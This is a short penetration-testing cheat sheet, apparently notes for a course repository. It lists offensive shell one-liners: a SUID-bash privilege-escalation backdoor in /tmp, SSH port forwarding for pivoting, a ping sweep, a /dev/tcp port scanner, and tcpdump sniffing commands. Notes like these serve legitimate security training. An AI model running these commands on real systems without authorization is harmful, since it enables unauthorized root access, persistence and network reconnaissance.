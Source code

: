 git clone https://github.com/melnicek/peh

https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html

cp /bin/bash /tmp/yz
chmod +s /tmp/yz
/tmp/yz -p

ssh -L LPORT:RHOST:RPORT USER@RHOST -fN

for i in {1..254}; do (ping -c 1 x.x.x.${i} | grep "bytes from" &); done; sleep 2; arp -en | grep -v incomplete
for i in {1..65535}; do (echo > /dev/tcp/x.x.x.x/$i) >/dev/null 2>&1 && echo $i is open; done

sudo tcpdump -D
sudo tcpdump -i INTERFACE
sudo tcpdump -i INTERFACE -e
sudo tcpdump -i INTERFACE -X
sudo tcpdump -i INTERFACE host HOST
sudo tcpdump -i INTERFACE src host HOST
sudo tcpdump -i INTERFACE tcp src port PORT
